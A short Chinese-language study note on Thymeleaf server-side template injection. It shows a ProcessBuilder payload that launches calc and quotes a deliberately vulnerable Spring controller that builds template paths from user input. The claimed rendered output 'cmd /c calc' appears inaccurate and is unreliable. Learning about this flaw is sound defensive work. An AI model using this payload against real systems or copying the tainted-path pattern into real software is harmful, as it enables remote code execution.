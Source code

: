 ## thymeleaf

基本原理

```bash
<html>
<body>
  <h1>${name}</h1>
</body>
</html>
```

如果攻击者将以下恶意代码注入模板：

```bash
<html>
<body>
  <h1>${new java.lang.ProcessBuilder("calc").start()}</h1>
</body>
</html>
```

则模板会解析为以下内容：

```bash
<html>
<body>
  <h1>cmd /c calc</h1>
</body>
</html>
```

javasec 的示例如下

```bash
@RequestMapping("/thymeleaf")
    public String thymeleaf(String content) {
        return "user/" + content + "/welcome"; //template path is tainted
    }
```

没有对应的模板文件，默认渲染文件名字，所以存在模板注入  
[![](assets/1705886531-4c9bb9771d5ef4e987cb71d2999f28da.png)](https://cdn.nlark.com/yuque/0/2023/png/21762749/1703579189283-0ecbb1e3-cc2a-4fce-885f-99a44736dc57.png#averageHue=%23e5e0df&clientId=u5b490a61-0d9a-4&from=paste&height=278&id=uf9fb1770&originHeight=417&originWidth=1489&originalType=binary&ratio=1.5&rotation=0&showTitle=false&size=124984&status=done&style=none&taskId=u80c506a6-4991-4aa7-bf28-e4c99dc94ae&title=&width=992.6666666666666)  
但是也会报错 500
